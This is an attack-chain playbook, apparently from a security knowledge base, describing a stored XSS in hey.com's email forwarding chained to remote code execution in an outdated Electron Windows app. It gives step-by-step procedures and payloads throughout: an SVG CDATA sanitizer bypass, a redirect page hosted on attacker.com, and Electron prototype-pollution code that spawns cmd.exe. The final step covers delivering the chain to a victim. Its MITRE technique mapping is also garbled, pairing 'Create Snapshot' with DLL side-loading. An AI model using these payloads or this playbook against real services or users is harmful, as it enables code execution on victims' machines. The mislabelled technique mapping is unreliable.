

# Stored XSS in Hey.com Email Forwarding Leading to RCE on Electron Desktop App

Multi-stage attack chain demonstrating exploitation of stored XSS in hey.com's email forwarding feature, bypassing HTML sanitization with SVG CDATA tricks, and chaining to RCE on an outdated Electron-based Windows desktop app via iframe redirects and prototype pollution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Chrome-DevTools]]

### Target Environment

- hey.com web service
- Outdated hey.com Windows desktop app (v1.0.2, Electron-based)
- No specific ports required; web access to hey.com

### Initial Access Requirements

- Valid hey.com accounts (create two for testing)
- Network access to hey.com and ability to host files on external domains
- Victim using old Windows app version

## Detailed Attack Procedures

### Step 1: Account Setup
procedure: [[procedures/setup-heycom-accounts]]

**Objective**: Establish sender and receiver accounts on hey.com to facilitate email forwarding and payload testing.

**Instructions**: Register two separate hey.com accounts—one for sending malicious emails and one for receiving and viewing forwarded content. Log in to the sender account to prepare for forwarding.

**Expected Output**: Two active accounts ready for use.

**Success Indicators**:
- Successful login to both accounts
- Ability to compose and forward emails

### Step 2: Payload Injection
procedure: [[procedures/inject-xss-payload-email-forward]]

**Objective**: Intercept the email forwarding request and inject a stored XSS payload into the message content to bypass initial sanitization.

**Instructions**: Use [[tools/Burp-Suite]] to intercept the POST request to /messages when forwarding an email from the sender account to the receiver. Modify the message[content] parameter in the multipart/form-data body to include the malicious payload: an SVG element with CDATA section containing script, img onerror handlers, and other HTML like style elements for potential bypass.

Example payload snippet:
```html
<svg><script><![CDATA[]]></script></svg>
```

Forward the modified request to complete injection.

**Expected Output**: Email forwarded successfully with injected payload stored on the server.

**Success Indicators**:
- No request errors in Burp
- Payload visible in request body

### Step 3: Trigger XSS
procedure: [[procedures/view-trigger-xss-imbox]]

**Objective**: View the forwarded email in the receiver's Imbox to execute the stored XSS payload in the browser context.

**Instructions**: Log in to the receiver account using a browser with [[tools/Chrome-DevTools]] open. Navigate to the Imbox and open the forwarded email. Monitor the console for payload execution, noting any CSP violations that may block direct script but allow partial bypass via onerror or other handlers.

**Expected Output**: JavaScript execution in the browser, such as alert popup or console logs, potentially blocked by CSP.

**Success Indicators**:
- Console shows XSS attempt
- Partial payload effects visible despite CSP

### Step 4: Host Redirect for Bypass
procedure: [[procedures/host-redirect-iframe-bypass]]

**Objective**: Host a redirect page to chain the XSS into an iframe that bypasses browser restrictions and navigates to the RCE payload.

**Instructions**: Host a file named redirect.html on a controllable domain (e.g., attacker.com). Include a script in redirect.html that uses an iframe with sandbox="allow-top-navigation" to load RCE.html from another domain, forcing a top-level redirect.

Example redirect.html content:
```html
<script>window.top.location='http://rce-domain.com/RCE.html';</script>
<iframe sandbox="allow-top-navigation" src="http://rce-domain.com/RCE.html"></iframe>
```
Upload and verify hosting.

**Expected Output**: Page accessible and redirect functional when loaded.

**Success Indicators**:
- Iframe loads without errors
- Top navigation redirect works

### Step 5: Host RCE Payload
procedure: [[procedures/host-rce-prototype-pollution]]

**Objective**: Host the RCE script that exploits Electron's prototype pollution to spawn a process on the victim's machine.

**Instructions**: Host RCE.html on a second domain. The page should contain JavaScript to pollute Object.prototype.toString.call, accessing Electron's internal process binding to execute commands.

Include the command execution via [[commands/spawn-cmd-calc]]:

In RCE.html:
```javascript
Object.prototype.toString.call = process.binding('process').spawn;
Object.prototype.toString.call('cmd.exe /k calc');
```
Verify the page loads and script is present.

**Expected Output**: Script ready to execute cmd.exe when loaded in Electron context.

**Success Indicators**:
- Page source confirms JS payload
- No syntax errors on load

### Step 6: Victim Execution
procedure: [[procedures/send-view-in-electron-app]]

**Objective**: Deliver the chained payload to the victim via email and achieve RCE when viewed in the outdated Windows app.

**Instructions**: Using [[tools/Burp-Suite]], craft and send an email from the sender account to the victim, embedding the SVG CDATA iframe payload pointing to redirect.html. Instruct or wait for the victim to open the email in the old hey.com Windows desktop app (v1.0.2).

Payload example in email content:
```html
<svg><![CDATA[<iframe sandbox="allow-top-navigation" src="http://redirect-domain.com/redirect.html"></iframe>]]></svg>
```

**Expected Output**: calc.exe launches on victim's machine upon email view.

**Success Indicators**:
- Email delivered
- RCE confirmed by process spawn (e.g., calculator opens)

## Attack Chain Summary

### Key Achievements

1. Successful stored XSS injection bypassing initial sanitization
2. CSP evasion via SVG CDATA and iframe chaining
3. RCE on Electron app through prototype pollution and process spawning

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[JavaScript]] JavaScript
- [[Create Snapshot]] Hijack Execution Flow: DLL Side-Loading (adapted for Electron context)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T12:00:00Z*
